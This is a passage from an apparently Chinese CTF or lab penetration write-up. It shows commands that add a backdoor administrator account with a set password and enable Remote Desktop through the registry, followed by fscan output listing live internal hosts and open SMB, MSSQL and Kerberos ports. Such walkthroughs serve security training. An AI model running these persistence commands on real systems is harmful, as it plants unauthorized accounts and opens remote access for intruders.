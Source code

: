 添加后门用户，开远程桌面上去，在`C:\Users\Administrator\flag`目录下读到`flag01.txt`：`flag{5f653eba-dc89-4137-a716-8b25e9623a68}`。

```bash
net user Hacker qwer1234! /add
net localgroup administrators hacker /add
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```

![](./images/3.png)

接着利用同样的方式，下载一下`fscan`，收集网段信息。

```
(icmp) Target 172.22.8.18     is alive
(icmp) Target 172.22.8.15     is alive
(icmp) Target 172.22.8.31     is alive
(icmp) Target 172.22.8.46     is alive
[*] Icmp alive hosts len is: 4
172.22.8.46:445 open
172.22.8.18:1433 open
172.22.8.31:445 open
172.22.8.15:445 open
172.22.8.18:445 open
172.22.8.46:139 open
172.22.8.31:139 open
172.22.8.15:139 open
172.22.8.18:139 open
172.22.8.31:135 open
172.22.8.46:135 open
172.22.8.15:135 open
172.22.8.18:135 open
172.22.8.46:80 open
172.22.8.18:80 open
172.22.8.15:88 open
[*] alive ports len is: 16
```